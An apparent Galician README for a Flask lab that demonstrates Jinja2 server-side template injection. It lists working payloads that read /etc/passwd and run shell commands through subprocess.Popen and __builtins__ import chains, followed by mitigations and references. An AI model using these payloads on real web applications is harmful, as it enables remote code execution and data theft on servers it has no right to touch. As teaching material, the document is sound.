

# Descripción

Web feita con flask para demostrar como funciona unha inxección de plantillas (Server Side Template Injection).

# Que é flask?

Flask é un framework para aplicacións web lixeiro o cal permite crear páxinas web de forma simple. 

Flask utiliza Jinja2 coma motor de plantillas o cal permite utilizar placeholders que posteriormete a aplicación web 
enche de forma dinámica.

# Ataque

As vulnerabilidades de inxección de plantillas aparecen cando o input do usuario é embebido nunha platilla sen ningunha
comprobación previa. Isto produce que se poida executar código de forma remota no servidor afectado.

## Explotación

Para explotar un SSTI hai que encontrar unha forma de escapar da sandbox de Jinja e recuperar o acceso ao fluxo de 
execución normal de Python. Para conseguilo, hai que abusar de obxectos que están fora da sandbox pero que son 
accesibles dende ela.

En Python todo é un obxecto e iso permíte navegar pola árbore de herencia de calquera obxecto. Por exemplo, a partir dun
tipo de dato (string, enteiros ou floats) pódese obter a clase dese dato accedendo á referencia 
`__class__`:

```pycon
>>> "".__class__
<class 'str'>
```

Dende unha clase calquera pódese acceder á clase `object` mediante a súa `__base__`:

```pycon
>>> "".__class__.__base__
<class 'object'>
```

Si que se consiga acceder á clase `object` póndese ver todas as subclases que heredan desta clase mediante a referencia
`__subclasses__()`:

```pycon
>>> "".__class__.__base__.__subclasses__()
[<class 'type'>, <class 'async_generator'>, <class 'int'>, <class 'bytearray_iterator'>, <class 'bytearray'>...]
```

Dende esa lista de clases hai que escoller a que mellor nos combeña. Neste exemplo, quérese ler o ficheiro 
`/etc/passwd` mediante a función `open()`. Para levar a cabo isto buscouse a clase `_io._IOBase` que a súa vez é pai da 
clase `_io.BytesIO` que a súa vez é pai da clase `_io.FileIO` a cal é a que ten a función `open()`:

```pycon
>>> "".__class__.__base__.__subclasses__()[129]
<class '_io._IOBase'>
>>> "".__class__.__base__.__subclasses__()[129].__subclasses__()
[<class '_io._RawIOBase'>, <class '_io._BufferedIOBase'>, <class '_io._TextIOBase'>, <class 'io.IOBase'>]
>>> "".__class__.__base__.__subclasses__()[129].__subclasses__()[2].__subclasses__()
[<class '_io.FileIO'>, <class 'io.RawIOBase'>]
>>> "".__class__.__base__.__subclasses__()[129].__subclasses__()[2].__subclasses__()[0]('/etc/passwd').read()
b'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/...
```

Na seguinte imaxe móstrase o percorrido feito para chegar á clase `_io.FileIO`:



## Nota importante

Cando se listan as clases fillas da clase object, o resultado variará en función da versión de Python e dos módulos 
importados. Polo tanto, os payloads utilizados nestes exemplos poden cambiar.

# Playloads

Ver se a web é vulnerable a SSTI:

```python
{{}}
{{ 7 * 7 }}
```

Ver se podemos acceder á clase dun obxecto:

```python
{{ ''.__class__ }}
{{ dict }}
```

Obter as subclases:

```python
{{ ''.__class__.__base__.__subclasses__() }}
{{ ''.__class__.__mro__[1].__subclasses__() }}
{{ dict.__base__.__subclasses__() }}
```

## Versión 3.9.x de python

Neste punto hai que escoller a clase que mellor nos combeña. Para este caso escolleuse a clase **subprocess.Popen**, 
a cal nos permite executar comandos. No computador destas proba, a clase escollida atópase no índice 368 (noutros 
computadores pode cambiar o índice da clase).

Executar comandos:

```python
{{ ''.__class__.__base__.__subclasses__()[368]('ls',shell=True,stdout=-1).communicate()[0].strip().decode('ascii') }}
{{ ''.__class__.mro()[1].__subclasses__()[368]('ls',shell=True,stdout=-1).communicate()[0].strip().decode('ascii') }}
{{ dict.__base__.__subclasses__()[368]('ls',shell=True,stdout=-1).communicate()[0].strip().decode('ascii') }}
```

Conseguir o segredo:

```python
{{ ''.__class__.__base__.__subclasses__()[368]('cat segredo.txt',shell=True,stdout=-1).communicate()[0].strip().decode('ascii') }}
{{ ''.__class__.mro()[1].__subclasses__()[368]('cat segredo.txt',shell=True,stdout=-1).communicate()[0].strip().decode('ascii') }}
{{ dict.__base__.__subclasses__()[368]('cat segredo.txt',shell=True,stdout=-1).communicate()[0].strip().decode('ascii') }}
```

## Version 3.12.3 de python

Neste punto hai que escoller a clase que mellor nos combeña. Para este caso escolleuse a clase 
**importlib.util._incompatible_extension_module_restrictions**, a cal nos permite poder acceder a importlib para cargar
as librarías que queramos. No computador destas proba, a clase escollida atópase no índice 377 (noutros computadores 
pode cambiar o índice da clase).

Despois de escoller a clase, hai que ver se a clase ten definida a función `__init__`.

```python
{{ ''.__class__.__base__.__subclasses__()[377].__init__ }}
{{ ''.__class__.__mro__[1].__subclasses__()[377].__init__ }}
{{ dict.__base__.__subclasses__()[377].__init__ }}
```

Dende a funcion `__init__` pódese acceder ao diccionario `__globals__`. E o diccionario `__globals__` contén unha 
entrada para o diccionario `__builtins__`. No diccionario `__builtins__` podese cargar a libraría que nos conveña.

```python
{{ ''.__class__.__base__.__subclasses__()[377].__init__.__globals__['__builtins__'].__import__('subprocess').Popen('id',shell=True,stdout=-1).communicate()[0].strip().decode('ascii') }}
{{ dict.__base__.__subclasses__()[377].__init__.__globals__['__builtins__'].__import__('subprocess').Popen('id',shell=True,stdout=-1).communicate()[0].strip().decode('ascii') }}
{{ ''.__class__.__mro__[1].__subclasses__()[377].__init__.__globals__['__builtins__'].__import__('subprocess').Popen('id',shell=True,stdout=-1).communicate()[0].strip().decode('ascii') }}
```

# Mitigacións

- Non permitir aos usuarios enviar plantillas
- Utilizar platillas sen loxica como por exemplo Mustache
- Executar o código nunha sandbox a nivel de sistema operativo

# Referencias

- [PortSwigger - Server-side template injection](https://portswigger.net/web-security/server-side-template-injection)
- [Owasp - Testing for Server Side Template Injection](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection)
- [Ingo Kleiber-A Simple Flask (Jinja2) Server-Side Template Injection (SSTI) Example](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)
